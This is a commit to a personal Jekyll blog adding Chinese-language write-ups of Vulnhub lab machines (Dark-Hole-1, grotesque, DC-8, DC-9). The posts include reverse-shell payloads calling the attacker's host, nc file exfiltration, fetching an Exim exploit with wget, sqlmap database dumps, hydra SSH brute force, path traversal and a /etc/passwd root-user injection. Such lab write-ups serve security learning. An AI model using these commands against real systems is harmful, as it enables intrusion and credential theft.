

Before and after one commit to Kyon-H/kyon-h.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Auto-sync

````diff
--- a/_posts/2025-07-14-Dark-Hole-1.md
+++ b/_posts/2025-07-14-Dark-Hole-1.md
@@ -50,7 +50,11 @@ admin登录成功，可以上传文件
 
 ![image.png](https://img.ghostliner.top/GvKSmS.png)
 
+反弹成功，查看数据库未发现有效信息
+
 ![image.png](https://img.ghostliner.top/7dwDHN.png)
+
+查看john家目录，发现特殊权限的 `toto`
 
 ![image.png](https://img.ghostliner.top/fyi8kc.png)
 
@@ -63,11 +67,15 @@ export PATH=/tmp:$PATH
 ./toto
 ```
 
-获取到密码
+提权成功，获取到密码
 
 ![image.png](https://img.ghostliner.top/Wva3ra.png)
 
+获取到flag
+
 ![image.png](https://img.ghostliner.top/MtRwdk.png)
+
+root提权
 
 ![image.png](https://img.ghostliner.top/D6WblV.png)
 
--- a/_posts/2025-07-16-grotesque-1.0.1.md
+++ b/_posts/2025-07-16-grotesque-1.0.1.md
@@ -7,8 +7,11 @@ author: Kyon-H
 header-img: img/post-bg-2015.jpg
 tags:
   - 靶场实战
-published: false
+published: true
 ---
+### 环境搭建
+
+[【Vulnhub靶场】解决IP找不到的办法](https://blog.csdn.net/chao321654987/article/details/145914309)
 ### 信息搜集
 
 搜索IP，发现主机 `192.168.163.134`
@@ -23,7 +26,7 @@ namp -T4 -A -p- 192.168.163.134
 
 ![image.png](https://img.ghostliner.top/BRzNRF.png)
 
-扫描目录，发现80无内容
+扫描目录，发现80端口无内容，扫描66端口
 
 ```shell
 dirsearch -u http://192.168.163.134:66/
@@ -51,18 +54,123 @@ whatweb扫描网站
 
 解码得到 `/sshpasswd.png`
 
-在 sense.md 文件找到提示
+查看项目文件，在 `sense.md` 文件找到提示
 
 ![image.png](https://img.ghostliner.top/wrbRpk.png)
 
-访问发现wordpress站点，F12发现提示，访问到图片
+访问`/lyricsblog` 发现wordpress站点，F12发现提示，访问到图片
 
 ![image.png](https://img.ghostliner.top/5SqyhB.png)
 
-扫描用户名，获取到 `erdalkomurcu`
+![image.png](https://img.ghostliner.top/5Z2fmd.png)
+
+扫描目录
+
+```shell
+dirsearch -u http://192.168.163.134/lyricsblog/ -e* -i 200
+```
+
+![image.png](https://img.ghostliner.top/FCr09S.png)
+
+发现后台登录地址 `/lyricsblog/wp-login.php`
+#### 获取用户名密码
+
+wpscan扫描用户名，获取到 `erdalkomurcu`
 
 ```shell
 wpscan --url http://192.168.163.134/lyricsblog/ -e u
 # 保存
 echo "erdalkomurcu" > user.txt
 ```
+
+浏览站点发现与图片中文字相同的文章
+
+![image.png](https://img.ghostliner.top/5bLaoe.png)
+
+将文章内容保存到 `lyrics.txt` 计算其MD5值
+
+![image.png](https://img.ghostliner.top/EUugLE.png)
+
+转换为大写字符
+
+```shell
+echo "bc78c6ab38e114d6135409e44f7cdda2" | tr 'a-z' 'A-Z'
+# BC78C6AB38E114D6135409E44F7CDDA2
+```
+
+使用用户名：`erdalkomurcu`，密码：`BC78C6AB38E114D6135409E44F7CDDA2` 登陆成功
+### 反弹shell
+
+浏览页面找到可以注入PHP代码的位置
+
+![image.png](https://img.ghostliner.top/HVIuKb.png)
+
+在footer.php添加反弹shell代码
+
+```php
+system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');
+```
+
+![image.png](https://img.ghostliner.top/dPdexr.png)
+
+kali执行 `nc -lvp 4444` 开启监听，并反弹成功
+
+发现`raphael`用户目录下`user.txt`但无权查看
+
+查找网站配置文件，发现数据库配置
+
+![image.png](https://img.ghostliner.top/IuQs5f.png)
+
+获得用户名：`raphael`，密码：`_double_trouble_`
+
+尝试切换用户，成功
+
+![image.png](https://img.ghostliner.top/A5msB5.png)
+
+查看 `user.txt`文件，发现内容
+
+![image.png](https://img.ghostliner.top/QbUVOK.png)
+### root提权
+
+查看隐藏文件，发现 `.chadroot.kdbx`文件
+
+![image.png](https://img.ghostliner.top/iPoLP3.png)
+
+`.kdbx`为密码管理软件 `KeePass`生成的密码文件后缀名
+
+传输到kali进行解密
+
+```shell
+# dc-9
+nc 192.168.163.132 5555 < .chadroot.kdbx
+# kali
+nc -lvp 5555 >keepass
+# 解密
+keepass2john keepass | tee pass.txt
+john pass.txt
+```
+
+![image.png](https://img.ghostliner.top/sl1TsA.png)
+
+![image.png](https://img.ghostliner.top/zcN2b1.png)
+
+解密得到 `chatter`
+
+打开网站[KeeWeb](https://app.keeweb.info/)上传 `keepass`文件，输入密码 `chatter`，得到4组root密码
+
+![image.png](https://img.ghostliner.top/hf1unI.png)
+
+```
+.:.yarak.:.
+secretservice
+.:.subjective.:.
+rockyou.txt
+```
+
+使用 `.:.subjective.:.` 登录成功
+
+![image.png](https://img.ghostliner.top/SXIzFt.png)
+
+### 获取flag
+
+![image.png](https://img.ghostliner.top/jFA97D.png)
--- /dev/null
+++ b/_posts/2025-07-17-DC-8.md
@@ -0,0 +1,163 @@
+---
+layout: post
+title: DC-8
+subtitle: DC-8
+date: 2025-07-17 09:13
+author: Kyon-H
+header-img: img/post-bg-2015.jpg
+tags:
+  - 靶场实战
+  - DC系列
+published: true
+---
+## 信息搜集
+
+扫描IP，发现主机 `192.168.163.131`
+
+![image.png](https://img.ghostliner.top/WUE7BR.png)
+
+扫描端口发现80和22端口
+
+```shell
+nmap -T4 -A -p- 192.168.163.131
+```
+
+![image.png](https://img.ghostliner.top/YDtSmm.png)
+
+目录扫描发现登录地址 `/user/login/`
+
+```shell
+dirsearch -u http://192.168.163.131 -e* -i 200
+```
+
+![image.png](https://img.ghostliner.top/3yhHXh.png)
+
+指纹识别，发现站点为 `Drupal 7`
+
+```shell
+whatweb -v http://192.168.163.131
+```
+
+![image.png](https://img.ghostliner.top/Ut8ZAj.png)
+
+浏览器查看站点地址： http://192.168.163.131/?nid=1
+
+`nid=1'` 测试发现存在sql注入
+
+![image.png](https://img.ghostliner.top/pJ82cf.png)
+## 渗透测试
+
+#### 数据库爆破
+
+sqlmap爆破数据库，获取用户名密码
+
+```shell
+# 获取当前数据库
+sqlmap -u http://192.168.163.131/?nid=1 --current-db --batch
+# 获取数据库表
+sqlmap -u http://192.168.163.131/?nid=1 -D d7db --tables
+# 获取表中列
+sqlmap -u http://192.168.163.131/?nid=1 -D d7db -T users --columns
+# 获取用户名，密码
+sqlmap -u http://192.168.163.131/?nid=1 -D d7db -T users -C name,pass --dump
+```
+
+数据库名：`d7db`
+![image.png](https://img.ghostliner.top/c6ezx6.png)
+
+数据库中users表的列名，发现其中有 `name`, `pass`
+![image.png](https://img.ghostliner.top/V508yv.png)
+
+获取到用户名、密码
+![image.png](https://img.ghostliner.top/2Ox8LF.png)
+
+`$S`为`Drupal`的密码哈希加密格式，尝试用 `john` 破解
+
+```shell
+echo '$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z' > john.txt
+echo '$S$DqupvJbxVmqjr6cYePnx2A891ln7lsuku/3if/oRVZJaz5mKC2vF' >> john.txt
+john john.txt
+# turtle
+```
+#### 反弹shell
+
+使用用户名：john，密码：turtle 登录成功，浏览网站
+
+在此页面发现可以注入PHP代码： http://192.168.163.131/node/3#overlay-context=user/2&overlay=node/3/webform/configure
+
+添加反弹shell代码
+
+```php
+<?php exec('nc -nv 192.168.163.132 4444 -c /bin/bash');?>
+```
+
+![image.png](https://img.ghostliner.top/J24lVZ.png)
+
+kali开启监听，浏览器访问`Contact Us` 页面，提交内容后，kali成功连接到shell
+
+![image.png](https://img.ghostliner.top/WdaAm9.png)
+
+#### 提权
+
+`sudo -l` 提权失败，尝试find提权
+
+```shell
+find / -user root -perm -4000 -type f 2> /dev/null
+```
+
+发现 `/usr/sbin/exim4`
+
+![image.png](https://img.ghostliner.top/gm1yev.png)
+
+查看`exim4`版本为：4.89
+
+![image.png](https://img.ghostliner.top/jwMu1W.png)
+
+搜索相关漏洞
+
+```shell
+searchexploit exim
+```
+
+![image.png](https://img.ghostliner.top/ppHChf.png)
+
+使用 `46996.sh`脚本，将其传输到目标机
+
+```shell
+# 复制到当前目录
+searchexploit -m 46996
+```
+
+查看内容，发现两种使用方法
+
+方法1：`-m setuid`
+![image.png](https://img.ghostliner.top/CQexEH.png)
+
+方法2：`-m netcat`
+![image.png](https://img.ghostliner.top/qEb0I1.png)
+
+将 `46996.sh`传输到目标机
+
+```shell
+# 开启http服务
+python -m http.server 8000
+# 目标机获取脚本
+wget http://192.168.163.132:8000/46996.sh
+# 添加执行权限
+chmod +x 46996.sh
+# 提权方法1
+./46996.sh -m setuid
+# 提权方法2
+./46996.sh -m netcat
+```
+
+方法1提权失败
+![image.png](https://img.ghostliner.top/8zuEL4.png)
+
+方法2提权成功
+![image.png](https://img.ghostliner.top/Ko5DKw.png)
+
+#### 获取flag
+
+root目录下获取到flag文件
+![image.png](https://img.ghostliner.top/cNlIz1.png)
--- /dev/null
+++ b/_posts/2025-07-17-DC-9.md
@@ -0,0 +1,227 @@
+---
+layout: post
+title: DC-9
+subtitle: DC-9
+date: 2025-07-17 11:38
+author: Kyon-H
+header-img: img/post-bg-2015.jpg
+tags:
+  - 靶场实战
+  - DC系列
+published: true
+---
+### 信息搜集
+
+扫描IP发现主机 `192.168.163.135`
+
+![image.png](https://img.ghostliner.top/RMLHfa.png)
+
+扫描端口，发现80端口开放，22端口 `filtered` 说明存在ssh服务，但被拒绝访问
+
+```shell
+nmap -T4 -A -p- 192.168.163.135
+```
+
+![image.png](https://img.ghostliner.top/EEZYUr.png)
+
+扫描目录
+
+```shell
+dirsearch -u http://192.168.163.135/ -e* -i 200
+```
+
+![image.png](https://img.ghostliner.top/pizDdy.png)
+
+`/search.php`发现搜索框，使用sqlmap测试
+
+### 数据库爆破
+
+使用bp抓取提交搜索的数据包，保存到`a.txt`文件中
+
+```http
+POST /results.php HTTP/1.1
+Host: 192.168.163.135
+User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
+Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
+Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
+Accept-Encoding: gzip, deflate
+Content-Type: application/x-www-form-urlencoded
+Content-Length: 9
+Origin: http://192.168.163.135
+Connection: close
+Referer: http://192.168.163.135/search.php
+Cookie: PHPSESSID=rn9as0edebkia6tvjbv2amr05p
+Upgrade-Insecure-Requests: 1
+Priority: u=0, i
+
+search=12
+```
+
+sqlmap 测试 `search`字段是否存在注入漏洞
+
+```shell
+sqlmap.py -r C:\Computer\Desktop\a.txt -p search --dbs
+```
+
+![image.png](https://img.ghostliner.top/7YhjJ5.png)
+
+发现存在注入漏洞，且获取到两个数据库：`Staff`、`users`
+
+#### 爆破 Staff 数据库
+
+获取表名
+![image.png](https://img.ghostliner.top/UzD1Aj.png)
+
+获取列名
+![image.png](https://img.ghostliner.top/EuucQt.png)
+
+获取用户名、密码
+![image.png](https://img.ghostliner.top/GKW85t.png)
+
+得到密码：`transorbital1`
+
+#### 爆破 users 数据库
+
+获取 `users` 数据库数据
+
+```shell
+sqlmap.py -r C:\Computer\Desktop\a.txt -p search -D users -T UserDetails -C username,password --dump
+```
+
+![image.png](https://img.ghostliner.top/eQ4HRT.png)
+
+相关数据保存到了 `C:\Users\vmuser\AppData\Local\sqlmap\output\192.168.163.135\dump\users\UserDetails.csv` 文件中，可将其中内容复制到kali中，之后用来SSH爆破
+![image.png](https://img.ghostliner.top/t6HFtP.png)
+
+### 网站登录
+
+通过用户：admin 密码：transorbital1 登录成功
+
+发现 `File does not exist` 字段，猜测有文件包含漏洞
+
+![image.png](https://img.ghostliner.top/ebtKO6.png)
+
+测试url: http://192.168.163.135/manage.php?file=../../../../etc/passwd ，成功获取到数据
+
+由于ssh服务为 `filtered` 猜测是否存在敲门
+
+构造url: http://192.168.163.135/welcome.php?file=../../../../../../etc/knockd.conf ，访问成功
+
+![image.png](https://img.ghostliner.top/IwnyAA.png)
+### SSH爆破
+
+根据文件中的端口，依次访问
+
+```shell
+nc 192.168.163.135 7469
+nc 192.168.163.135 8475
+nc 192.168.163.135 9842
+```
+
+再次扫描端口，发现已开放
+
+![image.png](https://img.ghostliner.top/dufBKT.png)
+
+将爆破 `users` 数据库得到的`.csv`文件内容复制到kali，保存为user.txt，使用vim将其中的 `,` 替换为 `:`，构造为符合hydra的格式
+
+```vim
+:%s/,/:/g
+```
+
+hydra爆破SSH
+
+```shell
+hydra -C user.txt ssh://192.168.163.135
+```
+
+![image.png](https://img.ghostliner.top/iG2yVd.png)
+
+| 用户名       | 密码          |
+| --------- | ----------- |
+| chandlerb | UrAG0D!     |
+| janitor   | Ilovepeepee |
+| joeyt     | Passw0rd    |
+
+janitor登陆成功，发现以下文件
+
+![image.png](https://img.ghostliner.top/YjkmXE.png)
+
+查看内容，疑似密码
+
+![image.png](https://img.ghostliner.top/3WRnwe.png)
+
+保存到文件中，并将之前的user.txt内容删去密码
+
+```vim
+:%s/:.*//g
+```
+
+爆破用户名密码
+```shell
+hydra -L user.txt -P pass.txt ssh://192.168.163.135
+```
+
+![image.png](https://img.ghostliner.top/7vJOMF.png)
+
+| 用户名   | 密码          |
+| ----- | ----------- |
+| fredf | B4-Tru3-001 |
+| joeyt | Passw0rd    |
+获取到新的用户名，发现为系统管理员
+
+![image.png](https://img.ghostliner.top/o9vgFE.png)
+
+### root提权
+
+登录成功，尝试 `sudo -l` 提权
+
+![image.png](https://img.ghostliner.top/GQZeqJ.png)
+
+发现 `/opt/devstuff/dist/test/test` 可用于提权，查看文件属性为二进制文件
+
+![image.png](https://img.ghostliner.top/NDQyxu.png)
+
+搜索上级目录，发现源代码文件 `test.py`
+
+![image.png](https://img.ghostliner.top/AhWaag.png)
+
+查看脚本内容：输入两个参数，且都为文件路径，之后读取第一个文件内容，将其追加到第二个文件中
+
+```python
+#!/usr/bin/python
+import sys
+if len (sys.argv) != 3 :
+    print ("Usage: python test.py read append")
+    sys.exit (1)
+else :
+    f = open(sys.argv[1], "r")
+    output = (f.read())
+    f = open(sys.argv[2], "a")
+    f.write(output)
+    f.close()
+```
+
+利用思路：向 `/etc/passwd` 中追加root权限用户，之后切换到该用户，实现root提权
+
+使用无密码用户提权失败，因此生成加密密码，构造有密码用户
+
+```shell
+openssl passwd -1 123
+# $1$1kseWC6t$1LvPSSOv2xgHthMIJWXA.0
+```
+
+构造 `/etc/passwd` 格式，保存到临时文件，执行test脚本将其追加到 `/etc/passwd` 中
+
+```shell
+echo 'rroott:$1$1kseWC6t$1LvPSSOv2xgHthMIJWXA.0:0:0::/root:/bin/bash' >/tmp/tf
+sudo ./test /tmp/tf /etc/passwd
+su rroott
+```
+
+提权成功
+
+![image.png](https://img.ghostliner.top/Il8qMj.png)
+
+获取flag文件
+
+![image.png](https://img.ghostliner.top/I1138g.png)
````
Also changed, not shown: other parts of _posts/2025-07-14-Dark-Hole-1.md (+2 -0 lines), other parts of _posts/2025-07-16-grotesque-1.0.1.md (+2 -2 lines).
